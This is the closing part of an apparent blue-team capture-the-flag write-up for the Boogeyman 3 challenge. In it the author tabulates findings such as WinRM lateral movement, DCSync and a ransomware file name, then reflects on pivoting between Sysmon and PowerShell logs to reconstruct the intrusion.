| Lateral movement | PowerShell Remoting / WinRM |
| Domain credential access | DCSync |
| DCSync target | `backupda` |
| Ransomware | `ransomboogey.exe` |

---

## What I Learned

This challenge was useful because it required following the complete attack chain instead of investigating isolated alerts.

The most important thing I learned was how to pivot between different types of telemetry. Instead of relying on a single query, I had to move between process creation events, parent-child relationships, PowerShell Script Block logs, Sysmon network events, PIDs, hostnames, and command lines.

I also gained more practical experience with:

- tracing parent and child process relationships;
- using Sysmon Event ID 3 to investigate network connections;
- analysing PowerShell Script Block logs;
- identifying scheduled-task persistence;
- recognising a `fodhelper.exe` UAC bypass;
- investigating Mimikatz activity;
- understanding Pass-the-Hash usage;
- identifying PowerShell Remoting / WinRM activity;
- following lateral movement between systems;
- recognising DCSync activity;
- reconstructing an intrusion chronologically from multiple log sources.

One of the harder parts was that the answer was not always visible in the first search. In several cases, I had to identify a useful process, extract its PID, pivot to its children or network activity, and continue from there.

This made the investigation feel much closer to a real SOC workflow than simply searching for known answers.

---

## Conclusion

Boogeyman 3 demonstrated how an attacker can progress from a single malicious attachment to a much broader domain compromise.

The investigation started with `mshta.exe` executing a malicious HTA payload and eventually uncovered persistence, C2 communication, privilege escalation, credential dumping, Pass-the-Hash activity, lateral movement, DCSync, and an attempted ransomware deployment.

The biggest takeaway from this challenge was the importance of **pivoting between related events**. A PID, parent process, hostname, command line, or network connection found in one event can become the starting point for the next stage of an investigation.

Rather than treating each alert independently, reconstructing these relationships made it possible to understand the attack as one continuous chain.
